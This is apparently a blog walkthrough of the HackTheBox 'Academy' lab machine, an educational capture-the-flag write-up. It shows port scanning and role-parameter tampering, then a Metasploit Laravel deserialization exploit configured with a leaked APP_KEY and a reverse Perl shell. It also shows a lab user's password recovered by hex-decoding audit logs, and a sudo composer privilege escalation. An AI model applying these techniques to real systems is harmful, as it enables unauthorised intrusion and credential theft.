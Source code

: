 ```yaml
---
title: HackTheBox - Academy
date: 2021-03-03 19:44:17 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/Academy.png
---
```


## Foothold

### Nmap Scan (open Ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oA Academy 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache httpd (port 80)

![Port 80](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/academy.png)

Once we go to [http://10.10.10.215](http://10.10.10.215), we can see two links:

- [http://10.10.10.215/login.php](http://10.10.10.215/login.php)
- [http://10.10.10.215/register.php](http://10.10.10.215/register.php)

If we check the source-code of the register page, we can notice there is an input which is **hidden**:

![Role id](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/roleid.png)

If we set its value to 1, we can access to: [http://10.10.10.215/admin-page.php](http://10.10.10.215/admin-page.php)

Once we're logged in, we can see there is a sub-domain whcih is mentionned `dev-staging-01.academy.htb`:

![admin-page](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/admin-page.png)

We add these domains into our `/etc/hosts`:

![/etc/hosts](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/etc-hosts.png)

Then we access to the subdomain:

![subdomain](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/subdomain.png)

It seems to be a **Laravel** backend:

![laravel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/laravel.png)

We can notice there are some sensible information like:

![APP_KEY](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/APP_KEY.png)


Using **metasploit**, we can gain a reverse shell to web server:

![msf](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/msf.png)

```bash
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
# Setting options
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
...
   Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.215                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      dev-staging-01.academy.htb                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

![reverse_shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/reverse_shell.png)

## User1: `cry0l1t3`

In the `/home` directory, we can see there are a bunch of users. One one them has a `user.txt` file: 

![cry0l1t3](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/cry0l1t3.png)

By doing some recursive research through files upon files we find this password: 

![password](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/dev_password.png)

It appears that it's the password of **cry0l1t3** user.

```bash
cry0l1t3@academy:/home/cry0l1t3:~$ cat user.txt
064f918982d32d8040efb7c1b66a486
```

## User2: `mrb3n`

**cry0l1t3** is part of the **adm** group.

Via `find` we can list all files that are owned by this group:

`find / -group adm -exec ls -la {} \; 2>/dev/null`

Most of them are in `/var/log`.

After reading about [linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/), I found this article "[Logging passwords on Linux](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)". Before continuing, I highly recommend that you read this article.

In `/var/log/audit/` directory, we can retrieve `mrb3n`'s password:

```bash
cry0l1t3@academy:/var/log/audit$ grep "data=" *  
audit.log.3:type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
...
cry0l1t3@academy:/var/log/audit$ echo 7375206D7262336E0A | xxd -r -p
su mrb3n
cry0l1t3@academy:/var/log/audit$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
```

## Root

Now that we have access to `mrb3n` account, let's do some enumeration and see what we can do with `sudo`:

![mrb3n](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/mrb3n.png)

`composer` is listed in [GTFOBins](https://gtfobins.github.io/gtfobins/composer/):

![gtfobins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/gtfobins.png)

To perform a privesc, we can exploit it and then become `root`:

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/academy/root.png)

___

## Useful links

- [Linux var log files](https://www.thegeekstuff.com/2011/08/linux-var-log-files/)
- [Logging Passwords on Linux - `/var/log/audit/audit.log`](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/)